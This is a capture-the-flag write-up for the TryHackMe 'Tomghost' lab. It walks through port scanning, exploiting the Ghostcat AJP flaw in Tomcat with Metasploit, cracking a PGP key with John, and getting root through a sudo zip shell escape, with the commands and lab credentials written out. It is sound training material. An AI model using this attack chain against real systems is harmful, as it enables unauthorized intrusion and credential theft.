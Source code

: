 # Enumeration

## Nmap

```jsx
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack ttl 61

8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

- Check cve of 8009

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ searchsploit ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                         | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                         | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                           | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- we found ajp metasploit

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(1).png)

- use msfconsole and search ajp
- use 0
- set up rhosts and exploit

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(2).png

```jsx
skyfuck:8730281lkjlkjdqlksalks
```

## SSH (22)

- use the above credential and login via ssh

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(3).png

```jsx
find / -type f -name user.txt 2> /dev/null
```

- use this cmd to find user.txt file

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ find / -type f -name user.txt 2> /dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post Exploitation

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

- open webshell on skyfuck
- download from our kali

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/tryhackme.asc
-----------------------------------------------
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/credential.pgp
```

First, let’s convert the key into a hash with this command:

```jsx
gpg2john tryhackme.asc > hash.txt
```

Then, start cracking it with John.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(4).png

```jsx
alexandru 
```

Now that I have the decrypted password, I can decrypt credential.pgp by using:

```jsx
gpg --import tryhackme.asc
gpg -d credential.pgp
```

- `-import` to import the key.
- `d` to decrypt the .pgp file.

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg --import tryhackme.asc
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg -d credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```

- we login ssh with merlin

It seems we need to use `sudo /zip` to access higher privileges.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

Look for files with the SUID bit, which allows us to run files with elevated privileges beyond the current user.

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(5).png

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(6).png

- we can find that in GTFOBins
- we will use that commands

```jsx
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(7).png

Finally, we got the root.

```jsx
# cd /root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
